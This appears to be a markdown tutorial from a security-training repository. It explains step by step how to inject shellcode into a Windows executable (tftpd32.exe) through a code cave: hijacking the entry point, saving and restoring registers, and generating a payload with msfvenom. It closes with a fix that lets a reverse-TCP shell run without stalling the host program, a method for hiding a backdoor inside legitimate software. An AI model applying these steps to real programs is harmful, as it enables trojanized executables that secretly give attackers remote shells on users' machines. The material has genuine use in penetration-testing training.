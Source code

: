 # PE injection

### Remarks:
- Right click -> Binary -> fill NOP or binary paste
- Save change of ASM: Copy to executable -> Save file
- navigation bar [m -> module, c -> CPU & stack]

### 1. Use LordPE to add a code cave, edit code cave (e.g. 1000 hex size) to be executable

### 2. Add none byte (1000 hex size) by hex editor

### 3. Save a backup (take notes) for the Entry Point before program start [e.g. tftp32d.exe]
```
004189BA > $ E8 369F0000    CALL tftpd32.004228F5
004189BF   .^E9 89FEFFFF    JMP tftpd32.0041884D
004189C4     CC             INT3
004189C5     CC             INT3
```

### 4. In Debugger, get code cave address (m in navigation bar) & check it is executable
```
e.g. Address=00454000
```

### 5. Edit CALL tftpd32.004228F5 --> JMP 00454000

### 6. Save registers & flags
```
pushad
pushfd
push eax * 8
```
Remark the **ESP address** after pushfd for further actions

**push eax * 8** for avoiding stack changing by shellcode

### 7. Generate shellcode (should add EXITFUNC=none)
```
msfvenom -a x86 --platform windows -p windows/messagebox TEXT="DEADCODE!" -f hex EXITFUNC=none
```
if used EXITFUNC=thread / EXITFUNC=process (default) / EXITFUNC=seh, clear the final exit or call function if needed.

### 8. Calculate of ESP original address after shellcode executed
` after saving register esp = 0012FFA0 - 0012FF3C = 64 `

### 9. Back to original address
```
ADD esp,064
popfd
popad
CALL 004228F5
JMP 004189BF
```

## Fix waiting shellcode problem
### e.g. windows/shell_reverse_tcp - Waitforsingleobject
### Waitforsingleobject wait for infinite (-1 = FFFFFFFF)
### 1. run trace over (ctrl+12) twice
### 2. click "..." (trace table) navigate bar
### 3. check which register = -1 or FFFFFFFF
### 4. edit the asm which change the register = -1 or FFFFFFFF (e.g. change it to be nop)
